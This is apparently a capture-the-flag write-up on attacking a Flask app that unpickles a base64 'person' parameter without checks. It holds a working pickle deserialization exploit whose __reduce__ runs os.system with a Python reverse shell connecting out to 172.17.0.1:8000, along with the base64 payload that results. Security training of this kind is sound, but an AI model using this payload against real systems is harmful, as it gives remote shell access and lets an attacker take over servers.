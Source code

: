 ```python
        return "missing age parameter"

    new_person = Person(name,int(age))
    return f"{base64.b64encode(pickle.dumps(new_person)).decode()}"

```

This flask application has two endpoints, `/summary` and `/create`

The `/create` endpoint is meant to provide an easier and secure way of creating a new instance of Person, sort of a constructor through the browser.

The `/summary` endpoint is the one that deserializes the stream into `Person` and then calls `summary()` method

We can try and mess around with `create` endpoint if we didn't had the code to know what this endpoint expects

But we will focus on `/summary` since we have the code and we know that it takes a `person` GET parameter,it takes a base64 encoded serialized object (base64 of an object dumped with pickel) then it calls `summary()`

The developer expects us to only use `/create` endpoint to create an object and serialize that object,so he doesn't check in `/summary` if the data has been tampered, we are going to exploit that.

so let's craft our exploit that does create our malicious object, base64 encode it so we can send it and pwn the server

I used python reverse shell from [revshells.com](https://www.revshells.com)

```python
import pickle
import base64

class Exploit:
    def __reduce__(self):
        import os
        # https://www.revshells.com/
        return ( (os.system, ("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"172.17.0.1\",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")'",)))

if __name__ == '__main__':
    payload = Exploit()
    print(base64.b64encode(pickle.dumps(payload)).decode())

```

```console
gASV8wAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjNhweXRob24gLWMgJ2ltcG9ydCBzb2NrZXQsc3VicHJvY2VzcyxvcztzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKTtzLmNvbm5lY3QoKCIxNzIuMTcuMC4xIiw4MDAwKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSeUhZRSlC4=

```
